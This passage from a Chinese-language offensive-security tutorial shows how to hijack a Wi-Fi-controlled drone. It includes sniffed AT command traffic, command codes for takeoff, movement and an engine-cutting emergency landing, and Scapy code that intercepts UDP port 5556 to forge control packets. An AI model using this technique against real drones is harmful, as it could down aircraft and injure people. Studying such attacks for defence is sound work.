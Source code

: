 运行这个脚本给我们看看无人机的指令协议。我们看到协议使用的语法是：`AT*CMD*=SEQUENCE_NUMBER,VALUE,[VALUE{3}]`。记录很长时间的流量，我们学会了三个简单的指令，这将会被我们的攻击所利用。命令`AT*REF=$SEQ,290717696\r`是发送无人家降落的命令。其次，命令`AT*REF=$SEQ,290717952\r`发送一个紧急降落的命令，立即切断引擎。命令`AT*REF=SEQ, 290718208\r`发送给无人机一个起飞指令。最后，我们可以用命令`AT*PCMD=SEQ, Left_Right_Tilt, Front_Back_Tilt, Vertical_Speed,Angular_Speed\r`来控制无人机。我们现在知道足够的指令来攻击无人机了。

```
attacker# python uav-sniff.py
'AT*REF=11543,290718208\r'
'AT*PCMD=11542,1,-1364309249,988654145,1065353216,0\r'
'AT*REF=11543,290718208\r'
'AT*PCMD=11544,1,-1358634437,993342234,1065353216,0\rAT*PCMD=11545,1
1355121202,998132864,1065353216,0\r'
'AT*REF=11546,290718208\r'
<..SNIPPED..> 
```

我们开始创建一个 Python 类`interceptThread`，这个类用于储存我们攻击的字段。这些字段包含在刚才截获的数据包里，具体的无人机序列号，和最后一个描述无人机流量是否被截获的布尔值。初始化这些字段后，我们将创建两个函数`run()`和`interceptPkt()`，`run()`函数开始嗅探过滤的 5556 UDP 流量，并触发`interceptPkt()`函数，当拦截到无人机流量，布尔值变为真，接下来，它将从当前记录的无人机控制流量中玻璃序列号。

```
class interceptThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.curPkt = None
        self.seq = 0
        self.foundUAV = False
    def run(self):
        sniff(prn=self.interceptPkt, filter='udp port 5556')
    def interceptPkt(self, pkt):
        if self.foundUAV == False:
            print('[*] UAV Found.')
            self.foundUAV = True
            self.curPkt = pkt
            raw = pkt.sprintf('%Raw.load%')
        try:
            self.seq = int(raw.split(',')[0].split('=')[-1]) + 5
        except:
            self.seq = 0 
```

## 用 Scapy 制作 802.11 数据帧

接下来，我们要制作一个包含无人机指令的新的数据包。然而，为了做到这一点，我们需要共当前的数据帧中复制一些必要的信息。因为数据包包含 RadioTap, 802.11, SNAP, LLC, IP, and UDP 层，我们需要从各个层中复制字段。`Scapy`对每一层都有很好的支持，例如，看看 Dot11 层，我们开始`Scapy`然后执行`ls(Dot11)`命令，我们会看到我们需要复制到我们伪造的数据包中的字段。

```
attacker# scapy
Welcome to Scapy (2.1.0)
>>>ls(Dot11)
subtype : BitField             = (0)
type : BitEnumField           = (0)
proto : BitField               = (0)
FCfield : FlagsField            = (0)
ID : ShortField                = (0)
addr1 : MACField             = ('00:00:00:00:00:00')
addr2 : Dot11Addr2MACField   = ('00:00:00:00:00:00')
addr3 : Dot11Addr3MACField   = ('00:00:00:00:00:00')
SC : Dot11SCField            = (0)
addr4 : Dot11Addr4MACField   = ('00:00:00:00:00:00') 
```
